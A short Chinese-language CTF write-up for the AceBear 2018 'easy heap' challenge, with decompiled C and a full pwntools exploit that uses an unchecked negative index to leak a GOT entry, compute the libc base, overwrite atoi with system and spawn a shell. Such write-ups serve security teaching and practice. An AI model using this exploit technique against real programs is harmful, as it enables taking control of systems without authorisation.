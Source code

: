 # AceBear Security Contest 2018 - Notes

## easy heap

先丟 ida pro ，然後我們可以看一下 show_name()

```c
int show_name()
{
  int result; // eax@2
  int idx; // [sp+Ch] [bp-Ch]@1

  printf("Index: ");
  idx = read_number();
  if ( idx <= 9 )
  {
    if ( *(&buf + idx) )
    {
      printf("This name %d is: %s\n", idx, *(&buf + idx));
      result = puts("Done!");
    }
    else
    {
      result = puts("None name");
    }
  }
  else
  {
    result = puts("Out of list name (0 <= index < 10)!!!");
  }
  return result;
}
```

她會用 %s 去印該地址的資料，所以這邊可以去 leak got 來算 libc addr

而且他沒檢查負數，然後看組語他是 ```DWORD PTR [eax*4+0x804b0a0]```

所以也有 integer overflow


然後利用 edit_name() 可以對記憶體做寫

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
r = process('/tmp/p/a')

def send_name_age(name, age):
	r.sendlineafter('name: ', name)
	r.sendlineafter('age: ', age)

def create_name(idx, name):
	r.sendlineafter('choice: ', str(1))
	r.sendlineafter(': ', str(idx))
	r.sendlineafter(': ', name)

def edit_name(idx, name):
	r.sendlineafter('choice: ', str(2))
	r.sendlineafter(': ', str(idx))
	r.sendlineafter(': ', name)

def delete_name(idx):
	r.sendlineafter('choice: ', str(3))
	r.sendlineafter(': ', str(idx))

def show_name(idx):
	r.sendlineafter('choice: ', str(4))
	r.sendlineafter(': ', str(idx))


## buf = 0x804B0A0
## name = 0x804B0E0
printf_got = 0x0804b014
atoi_got = 0x0804b038
atoi_off = 0x002d3c0
leak = -1073741808
name = flat([ atoi_got ])
send_name_age(name,"test")
print r.recvuntil('Your')

show_name(leak)
r.recvuntil('-1073741808 is: ')
libc = u32(r.recvline()[:4]) - atoi_off
log.info("libc: %x" % libc)
system = libc + 0x0003b060
edit_name(leak, p32(system))
r.sendlineafter('choice: ','sh')

r.interactive()

```


